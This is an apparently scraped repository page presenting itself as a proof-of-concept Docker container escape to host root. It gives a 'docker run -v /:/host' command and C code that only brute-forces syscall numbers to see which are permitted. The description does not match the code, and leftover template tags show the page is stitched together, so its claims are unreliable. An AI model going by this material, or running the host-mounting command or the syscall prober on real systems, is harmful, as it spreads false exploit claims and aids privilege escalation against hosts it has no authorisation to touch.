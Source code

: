 This repository contains a proof-of-concept exploit for escaping from a Docker container and gaining root privileges on the host system. The exploit takes advantage of a vulnerability in the Docker daemon that allows an attacker to run code on the host system with root privileges.

#### Usage

Compile the `syscall_bf.c` file on the host system using the provided Makefile:

```bash
make
```

Run the compiled binary inside a Docker container to escalate privileges:

```bash
docker run -v /:/host -it <image_id> /host/tmp/syscall_bf
```

#### Disclaimer

This exploit is for educational purposes only. Misuse of this exploit on systems without authorization is illegal.  
{% endtab %}
````c
// From a conversation I had with @arget131
// Fir bfing syscalss in x64

#include <sys/syscall.h>
#include <unistd.h>
#include <stdio.h>
#include <errno.h>

int main()
{
for(int i = 0; i < 333; ++i)
{
if(i == SYS_rt_sigreturn) continue;
if(i == SYS_select) continue;
if(i == SYS_pause) continue;
if(i == SYS_exit_group) continue;
if(i == SYS_exit) continue;
if(i == SYS_clone) continue;
if(i == SYS_fork) continue;
if(i == SYS_vfork) continue;
if(i == SYS_pselect6) continue;
if(i == SYS_ppoll) continue;
if(i == SYS_seccomp) continue;
if(i == SYS_vhangup) continue;
if(i == SYS_reboot) continue;
if(i == SYS_shutdown) continue;
if(i == SYS_msgrcv) continue;
printf("Probando: 0x%03x . . . ", i); fflush(stdout);
if((syscall(i, NULL, NULL, NULL, NULL, NULL, NULL) < 0) && (errno == EPERM))
printf("Error\n");
else
printf("OK\n");
}
}
```

````
{% endtab %}
{% endtabs %}
